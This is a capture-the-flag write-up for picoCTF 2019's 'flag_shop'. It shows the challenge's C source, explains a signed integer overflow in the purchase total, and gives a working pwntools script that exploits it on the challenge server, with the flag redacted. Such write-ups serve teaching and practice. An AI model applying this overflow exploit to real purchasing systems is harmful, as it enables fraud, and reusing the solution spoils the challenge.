 # flag_shop

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2019, General Skills
Author: DANNY

Description:
There's a flag shop selling stuff, can you buy a flag? Source. 

Connect with nc jupiter.challenges.picoctf.org 4906.

Hints:
1. Two's compliment can do some weird things when numbers get really big!
```
Challenge link: [https://play.picoctf.org/practice/challenge/49](https://play.picoctf.org/practice/challenge/49)

## Solution

### Analyse the setup

Let's start by checking the C source code
```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

Here we should note that the `account_balance` variable is a signed integer rather than an unsigned one. (`int account_balance = 1100;`)  
This means it stores both positive and negative numbers in [two's complement](https://en.wikipedia.org/wiki/Two%27s_complement) format.  

We can exploit this fact by wrapping around the value by doing an expensive purchase.  
The value needs to be larger than `2**31 - 1` for a 32-bit integer.

Each `Defintely not the flag` flag costs `900` and the `1337 Flag` costs 100000. Our start balance is 1100.  
So if we buy `(2**31 - 1 - 1100 + 100000) // 900` flags we ought to wrap around.

### Write a python script

We can use [pwntools](https://docs.pwntools.com/en/stable/index.html) to automate this with a Python script
```python
#!/usr/bin/python

from pwn import *

SERVER = 'jupiter.challenges.picoctf.org'
PORT = 4906

# Set output level (critical, error, warning, info (default), debug)
context.log_level = "info"

io = remote(SERVER, PORT)
# Buy a lot of 'Defintely not the flag' Flags
amount = (2**31 - 1 - 1100 + 100000) // 900
log.info(f"Buying {amount} Defintely not the flag Flags")
io.sendlineafter(b" Enter a menu selection\n", b"2")
io.sendlineafter(b"2. 1337 Flag\n", b"1")
io.sendlineafter(b"These knockoff Flags cost 900 each, enter desired quantity\n", str(amount).encode('ascii'))

# Buy the 1337 flag
log.info(f"Buying 1 1337 Flag")
io.sendlineafter(b" Enter a menu selection\n", b"2")
io.sendlineafter(b"2. 1337 Flag\n", b"2")
io.sendlineafter(b"Enter 1 to buy one", b"1")

# Get the flag
flag = io.recvlineS().strip()
print(flag)
io.close()
```

### Get the flag

Then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2019/General_Skills/Flag_shop]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to jupiter.challenges.picoctf.org on port 4906: Done
[*] Buying 2386202 Defintely not the flag Flags
[*] Buying 1 1337 Flag
YOUR FLAG IS: picoCTF{<REDACTED>}
[*] Closed connection to jupiter.challenges.picoctf.org port 4906
```

For additional information, please see the references below.

## References

- [Wikipedia - Two's complement](https://en.wikipedia.org/wiki/Two%27s_complement)
- [pwntools](https://docs.pwntools.com/en/stable/index.html)
